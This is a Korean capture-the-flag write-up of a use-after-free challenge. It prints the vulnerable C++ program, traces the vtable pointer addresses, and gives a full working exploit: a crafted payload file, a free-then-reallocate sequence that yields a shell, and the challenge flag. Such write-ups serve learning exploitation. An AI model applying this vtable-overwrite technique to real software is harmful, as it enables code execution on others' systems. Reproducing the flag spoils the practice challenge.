

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

소스를 보면 다음과 같다.

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```

case 1의 경우 0x400FCD로 jump하고 case 2의 경우 0x401000로 jump하고 case 3의 경우 0x401076으로 jump한다.


uaf bug인 경우 어떤 변수가 heap영역에 할당된 공간이 free를 통해 해제되고, 다른 변수가 그 공간에 데이터를 넣고, 다시 어떤 변수가 heap영역을 할당 받을 때 다른 변수의 데이터가 참조된다는 버그이다.


test.txt에 ABCD라는 값을 넣고 uaf를 실행할 때, 인자 값으로 4와 test.txt로 준다.

case 1를 호출하고 살펴보면 다음과 같다.

0x400FCD : rbp-38주소의 값(0xC14EA0)을 rax에 저장 (heap 주소)

0x400FD1 : rax가 가르키는 주소(0xC14EA0)에 들어있는 값(0x401570)을 rax에 저장

* 0x401570에 들어있는 값은 0x40117A로 Human class의 give_shell함수 주소이다.

0x400FD4 : rax(0x401570)에 0x8을 더함

0x400FD8 : rax가 가르키는 주소(0x401578)에 들어있는 값(0x4012D2)을 rdx에 저장

* 0x4012D2는 Man class의 introduce함수 주소이다.

0x400FE2 : Man class의 introduce함수 호출

0x400FF9 : Woman class의 introduce함수 호출(heap 주소 : 0xC14EF0, give_shell 주소가 저장된 주소 : 0x401550, introduce함수 주소 : 0x401376)


case 3을 호출하여 free를 해준다.

다음으로 case 2를 살펴보면 다음과 같다.

0x40104A : rbp-20주소의 값(0xC14EF0)을 rcx(data)에 넣는다.


이제 값을 참조하기 위해 case 1를 호출하면 segment fault가 일어난다.

Woman의 heap주소가 더 낮은 주소이기 때문에 data의 주소는 Woman이 할당 받았던 주소에 들어가지만, 코드는 Man class의 introduce함수를 먼저 호출한다.

즉, Man class의 introduce는 free때문에 0x8주소에 들어있는 값인데 주소를 찾을 수없고, Woman의 introduce 함수의 주소는 0x44434249주소에 들어있는 값으로 변조가 된다.

따라서, test.txt에 들어가야 하는 값은 0x401568(0x401570 - 0x8)이 되어야 하고, free이후 after를 2번 호출해야한다. 그러면 Man introduce에서 /bin/sh이 호출되고, Woman introduce에서 /bin/sh이 호출된다.

```sh
uaf@pwnable:~$ mkdir -p /tmp/ljw-uaf
uaf@pwnable:~$ python -c 'print "\x68\x15\x40\x00"' > /tmp/ljw-uaf/payload
uaf@pwnable:~$ ./uaf 4 /tmp/ljw-uaf/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag
yay_f1ag_aft3r_pwning
```


# **FLAG**

**yay_f1ag_aft3r_pwning**